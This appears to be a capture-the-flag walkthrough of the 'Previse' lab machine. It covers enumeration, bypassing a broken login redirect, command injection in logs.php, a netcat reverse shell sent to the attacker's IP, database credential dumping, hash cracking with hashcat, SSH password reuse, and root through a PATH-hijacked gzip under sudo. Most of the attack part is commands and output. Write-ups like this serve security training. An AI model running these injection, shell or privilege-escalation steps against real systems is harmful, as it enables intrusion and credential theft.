


Foothold
Let's start with some nmap enum:
$ sudo nmap -sS -sV 10.10.11.104
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-15 22:47 CET
Nmap scan report for 10.10.11.104
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
Nothing special, just the basic ones: a ssh port (we will use it later) and a website. So lets take a look at it:

Looks promising? We can -- and probably should -- try some sql injections, but it is not something, that will work. So what's next? Why not try some enumeration. We know already, that this page uses php and is not hiding file extensions. So thats easy:
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.104 -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.11.104
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Extensions: php
[+] Timeout: 10s
===============================================================
2021/12/15 22:50:43 Starting gobuster in directory enumeration mode
===============================================================
/download.php (Status: 302) [Size: 0] [--> login.php]
/index.php (Status: 302) [Size: 2801] [--> login.php]
/login.php (Status: 200) [Size: 2224]
/files.php (Status: 302) [Size: 4914] [--> login.php]
/header.php (Status: 200) [Size: 980]
/nav.php (Status: 200) [Size: 1248]
/footer.php (Status: 200) [Size: 217]
/css (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php (Status: 302) [Size: 2966] [--> login.php]
/js (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php (Status: 302) [Size: 0] [--> login.php]
/accounts.php (Status: 302) [Size: 3994] [--> login.php]
/config.php (Status: 200) [Size: 0]
/logs.php (Status: 302) [Size: 0] [--> login.php]
/server-status (Status: 403) [Size: 277]
Sweet! We can see here some pages that are redirected to login.php, as we are not logged in. Thats a bummer! Or is it not? We can try to access any of them by Burp/ZAP or just by curl, and see the result.
$ curl -I 10.10.11.104/accounts.php
HTTP/1.1 302 Found
Date: Mon, 20 Dec 2021 22:57:40 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=137fglha5g92u2jj5dph1daghf; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Type: text/html; charset=UTF-8
Header doesn't look helpful, but as we try to just read the whole page outside of the browser, we can see, that along the redirection, there is also the whole page html code, and that is a major problem for the creator, and a gateway for us!
Just take a look at this part of accounts.php:
<form role="form" method="post" action="accounts.php">
<div class="uk-margin">
<div class="uk-inline">
<span class="uk-form-icon" uk-icon="icon: user"></span>
<input type="text" name="username" class="uk-input" id="username" placeholder="Username">
</div>
</div>
<div class="uk-margin">
<div class="uk-inline">
<span class="uk-form-icon" uk-icon="icon: lock"></span>
<input type="password" name="password" class="uk-input" id="password" placeholder="Password">
</div>
</div>
<div class="uk-margin">
<div class="uk-inline">
<span class="uk-form-icon" uk-icon="icon: lock"></span>
<input type="password" name="confirm" class="uk-input" id="confirm" placeholder="Confirm Password">
</div>
</div>
<button type="submit" name="submit" class="uk-button uk-button-default">CREATE USER</button>
</form>
What we need is just to send a POST request to accounts.php with data presented in this form to create our own user account:
$ curl -X POST --data "username=hacker&password=testing&confirm=testing&submit=submit" 10.10.11.104/accounts.php
As previously, sending that request will give as a 302 redirect header, but in the response content there again is a page with confirmation of our user registration!
<div class="uk-alert-success" uk-alert><a class="uk-alert-close" uk-close></a><p>Success! User was added!</p></div></p>
We can now log in to this account, yay!

On page http://10.10.11.104/files.php we can find a downloadable file named SITEBACKUP.ZIP. You have to give it a look. Very close look. We will jump straight into the conclusion of this small research. There is a vulnerable file called logs.php, that contains this sweet line:
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
Can you see it? We can run a custom command with just adding something to the delim argument in a POST request! It is hard to find if it really work by trying to print result of additional command in response, but inserting something like "; sleep 10" will assure us, that it is working flawlessly! All in all, we can try many things, but what we really need is a remote shell. We will try a short and sweet version:
$ curl -X POST --data "delim=space;nc -e /bin/sh ${YOUR_IP} 4321" --cookie "PHPSESSID=${YOUR_SESSION}" 10.10.11.104/logs.php
with a netcat instance started locally already:
nc -lvnp 4321
BUM! We are inside!
First thing to do? Lets upgrade our remote shell a bit. We know already, that python is installed, so run
$ python -c 'import pty; pty.spawn("/bin/bash")'
Thats better. Now it is time for user part.
User
www-data@previse:/var/www/html$ ls /home
ls /home
m4lwhere
www-data@previse:/var/www/html$ ls -l /home/m4lwhere
ls -l /home/m4lwhere
total 4
-r-------- 1 m4lwhere m4lwhere 33 Dec 20 22:51 user.txt
We can see, that user account is named m4lwhere and it cointains the user.txt file, but access to this file is restricted. We will keep and remember the username for later use. At this moment the usual stuff can be done: LinEnum.sh, linpeas.sh, pspy64... It is always a good idea to run them, to gain more knowledge of work environment. But the right file for now is very close to us:
www-data@previse:/var/www/html$ cat config.php
cat config.php
<?php
function connectDB(){
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
$mycon = new mysqli($host, $user, $passwd, $db);
return $mycon;
}
?>
We can try those credentials to find something usefull in database:
www-data@previse:/var/www/html$ mysql -u root --password='mySQL_p@ssw0rd!:)' previse
<ysql -u root --password='mySQL_p@ssw0rd!:)' previse
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 17
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)
Copyright (c) 2000, 2021, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts |
| files |
+-------------------+
2 rows in set (0.00 sec)
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password | created_at |
+----+----------+------------------------------------+---------------------+
| 1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
| 2 | hacker | $1$🧂llol$/YdK1dMEncJO3HmNPAVfN. | 2021-12-20 23:06:10 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
mysql>
Awesome, we have a hash value of m4lwhere user. At this moment we dont know, if it will be reusable, byt maybe... Lets try to crack this little weirdo hash with a famous wordlist:
$ hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
There it is, lets try to reuse it in ssh:
$ ssh m4lwhere@10.10.11.104
BUM! We are in! And we can do the final step of this part, by typing:
$ cat user.txt
Root
We can go back now to enumerating. Fast forwarding to result, found by linpeas.sh:
-rwxr-xr-x 1 root root 486 Jun 6 2021 /opt/scripts/access_backup.sh
```
Combined with:
```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
(root) /opt/scripts/access_backup.sh
Give us a way to escalate. Lets take a look at content of this stript:
#!/bin/bash
# We always make sure to store logs, we take security SERIOUSLY here
# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
Can you see it already? At first glance it can look quite solid, BUT it is not, as the gzip command is executed without the full path, so we can alter the $PATH variable! We can start by creating a fake gzip command in a custom directory, like /tmp:
``` #!/bin/bash cp /root/root.txt /tmp/root.txt chmod 666 /tmp/root.txt
and run the final commands:
```bash
m4lwhere@previse:~$ sudo PATH=/tmp:$PATH /opt/scripts/access_backup.sh
m4lwhere@previse:~$ cat /tmp/root.txt
{ROOT_FLAG}
That's all, machine is rooted!